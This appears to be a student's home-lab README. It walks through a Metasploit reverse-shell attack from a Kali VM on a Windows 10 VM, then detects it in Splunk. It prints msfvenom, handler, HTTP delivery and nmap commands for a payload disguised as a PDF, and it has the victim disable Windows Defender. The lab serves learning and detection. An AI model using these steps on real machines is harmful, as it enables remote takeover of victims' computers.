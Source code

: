  # MSF,Splunk and Reverse Shell Attack Demonstration

> MSF (Metsploit Framework) is an open-source tool that is used to create and run exploit code remotely onto target systems.

> Splunk is a big data platform that manages large volumes of data by searching for information within it and indexes it.

> A reverse shell attack is an attack where an attacker initiates a shell session on the target's comptuer and redirects the input and output so that the attacker can access it remoteley. From here, the attacker's opportunities are limitless as they can open ports to the target machine and allow for a complete takeover of the machine. 

##Overview
This project has two objectives; one is to demonstrate how hackers exploit ports and use MSF to carry out attacks such as the reverse shell attack, and the other is to view data from the target machine on Splunk and locate the cause of the attack. This will be done by creating two virtual machines, one running Kali Linux (the attacker machine) and the other running Windows 10 (the target machine). MSF will be used to create the payload on the Kali virtual machine `(VM)` and will be delivered to the Windows 10 VM using an .exe file, diguised as a .pdf. The exploit will then be executed and will create a shell window on the Kali machine, allowing for any command to be carried out using the CLI. Data and fields should then be visible on Splunk and would provide data to a security analyst to determine the cause of the attack.



## Purpose of a home lab
As a student who is aspiring to break into the cybersecurity field, I have learnt that hands-on experience is essential to be kept in the loop as the field is everchanging. A home lab allows for me to test out real-world problems, experiment and learn to understand how attacks occur in a safe, sandboxed environment. For this project, I will set up two virtual machines (one running Kali Linux and the other running Windows 10) and have one act as an attacker and the other as a target. I will try to gain access to the Windows virtual machine’s shell via a reverse shell attack. A reverse shell attack initiates a shell session and allows for the attacker to redirect the input and outputs of the shell so that it can be used by the attacker. The delivery method of this attack that I will use is an .exe file disguised as a .pdf.




## Steps followed
1.	First, I chose a hosted hypervisor. I chose Virtualbox because I was familiar with it and had previously used it.
2.	Next, I downloaded Kali Linux and the Windows 10 ISO from their respective websites and set them up on Virtualbox.
3.	I downloaded Sysmon and Splunk on the Windows 10 machine at this point as it still has a connection to the internet.
4.	Both virtual machines were then both configured to be part of their own internal network, meaning they could communicate with each other but did not have an active connection to the internet. Static IPs were set for each one.
5.	Creating infected file on Kali Linux VM using the terminal :

        a.	“nmap -A {Windows 10 VM IP} -Pn “ – scans for any open ports on the target machine
        
        b.	Returned that port 3389 was exposed
  
        c.	“msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={Kali VM IP} lport=4444 -f exe -o Report.pdf.exe” – this command specifies the payload of the attack (reverse tcp), specifies the host of the attack, the port and the file and it’s format.

  	![kaliImage](images/Picture1.png)

  	    d.	“msfconsole” -> “use exploit/multi/handler” -> “set payload windows/x64/meterpreter/reverse_tcp “ – sets the payload option
  	
        e.	“exploit” – starts the handler
  	
        f.	“python3 -m http.server 999” – allows for the Windows machine in the same network to access the infected file 

![HTTP-Server](images/Picture2.png)

![Directory](images/Picture3.png)

        g.	Disable Windows Defender and open the file on the Windows VM

  	    h.	Looking at the Kali machine should show that you are connected to the target and should allow you to execute commands on it 
 
![Meterpreter](images/Picture4.png)


7.	Access Splunk and create an index with the name ‘endpoint’
 ![Splunk](images/Picture5.png)

8.	Go to the search and reporting app on Splunk and type ‘index=”endpoint” {Kali IP Address}’ 

![Splunk2](images/Picture6.png)
 
9.	Looking at the fields, we can see that the Kali Linux machine is accessing a port, which would be something of interest to investigate.

![Fields](images/Picture7.png)
 
10.	Looking further into the event IDs, we can see that the issue comes from the Report.pdf.exe.
 
![EventIDs](images/Picture8.png)

This was a simple demonstration of how exploits can be used to target exposed ports, how malware can take control of a victim’s computer and how tools like Splunk can be used to detect unusual events which can allow for the user to take action and solve the problem
